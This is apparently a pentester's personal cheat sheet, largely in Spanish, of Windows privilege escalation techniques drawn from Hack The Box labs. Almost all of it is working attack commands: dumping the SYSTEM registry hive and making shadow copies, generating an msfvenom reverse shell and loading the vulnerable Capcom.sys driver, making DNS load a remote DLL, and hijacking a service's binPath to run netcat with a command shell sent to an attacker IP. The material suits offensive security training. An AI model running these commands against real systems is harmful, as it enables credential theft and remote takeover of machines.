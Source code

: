 ```
```
## SeBackupPrivilege 
```
https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/ 
  crear copia de system reg save HKLM\system system
##DEJAR UN ESPACION AL FINAL DE CADA LINEA  
set context persistent nowriters 
add volume c: alias mario 
create 
expose %mario% z: 
```
## SeLoadDriverPrivilege
```
En la maquina de htb fuse se gana privilegios de la misma manera.
https://www.tarlogic.com/es/blog/explotacion-de-la-directiva-cargar-y-descargar-controladores-de-dispositivo-seloaddriverprivilege/
Hay que compilar el binario

primero crear con msfvenom un reverse y guardarlo en 
C:\Windows\System32\spool\drivers\color\reverse.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.19 LPORT=3001 -f exe -o reverse.exe  

Commandos
upload /home/mario/htb/fuse/ExploitCapcom.exe
upload /home/mario/htb/fuse/LoadDriver.exe
cd C:\\Windows\\System32\\spool\\drivers\\color
upload reverse.exe
upload /home/mario/htb/fuse/Capcom.sys

Ejecutar
C:\Windows\Temp\mario\LoadDriver.exe System\CurrentControlSet\mario C:\Windows\Temp\mario\Capcom.sys
C:\Windows\Temp\mario\ExploitCapcom.exe
```

whoami /groups
## DnsAdmins
```
https://www.abhizer.com/windows-privilege-escalation-dnsadmin-to-domaincontroller/
dnscmd /config /serverlevelplugindll \\10.10.14.19\mario\mario.dll
```
## Server Operators
```
upload /usr/share/windows-resources/binaries/nc.exe
sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.2 1234"

sc.exe stop vss
sc.exe start vss
```
